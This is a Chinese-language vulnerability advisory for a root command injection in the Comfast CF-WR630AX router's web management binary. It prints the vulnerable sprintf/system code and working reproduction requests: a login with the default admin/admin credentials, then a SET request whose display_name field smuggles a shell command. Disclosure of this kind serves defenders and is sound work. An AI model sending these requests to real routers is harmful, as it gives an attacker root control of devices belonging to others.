

# CVE-2026-75364 — Comfast CF-WR630AX `webmgnt` update_interface_png 命令注入

## 基本信息

| 项目 | 内容 |
| --- | --- |
| CVE 编号 | CVE-2026-75364 |
| 受影响产品 | Comfast CF-WR630AX（sysupgrade 构建 2024-01-30，OpenWrt 21.02-SNAPSHOT r0-10d74dc） |
| 漏洞类型 | CWE-77 命令注入（OS Command Injection） |
| 攻击向量 | 网络（HTTP，认证后） |
| 执行上下文 | root（`system()`） |
| PoC | [poc.py](./poc.py) |

## 漏洞概述

`/usr/bin/webmgnt` 的 `update_interface_png` SET 处理器（`sub_41978C`）
将用户可控的 `display_name` 参数拼入**未加引号**的命令模板后由
`system()` 以 **root** 执行：

其中off_468ED8、off_4685B0(s)分别是：
```
LOAD:0000000000468ED8 off_468ED8      DCQ sprintf             ; DATA XREF: sub_4064E8+29C↑o
LOAD:00000000004685B0 off_4685B0      DCQ system              ; DATA XREF: sub_4099DC:loc_409A38↑o
```
```c
sprintf(cmd, "/etc/rrd/graphinterface %s %s", display_name, interface);
system(cmd);                            // ← sink, root 执行
```

`%s` 无引号包裹，`display_name` 中直接插入 `;cmd;#` 即可注入任意命令。

## 复现（已验证，QEMU user-mode 仿真）

1. 登录获取会话：
   ```http
   POST /cgi-bin/login HTTP/1.1
   Content-Type: application/json

   {"username":"admin","password":"admin"}
   ```
2. 触发注入：
   ```http
   POST /cgi-bin/mbox-config?method=SET&section=update_interface_png HTTP/1.1
   Content-Type: application/json

   {"interface":"eth0","display_name":"x;echo PWNED >/tmp/pwn_png;#"}
   ```
3. 结果：HTTP `200 {"errCode":0,"errMsg":"OK"}`，注入命令以 root 执行，
   `/tmp/pwn_png` 内容为 `PWNED`。

## 影响

- 以 root 执行任意命令，完全控制设备。
- 可读取配置/WiFi 凭据、植入后门、横向渗透内网。

## 缓解建议

- 厂商：`display_name` 用 `execve` 参数化或白名单（`[A-Za-z0-9_-]`）；
  `sprintf` 拼接时对 `%s` 加引号并转义；强制强管理员密码。
- 用户：升级修复固件；限制 WAN 侧管理；修改默认 `admin/admin`。

## 参考

- https://www.comfast.com.cn
- OWASP FSTM
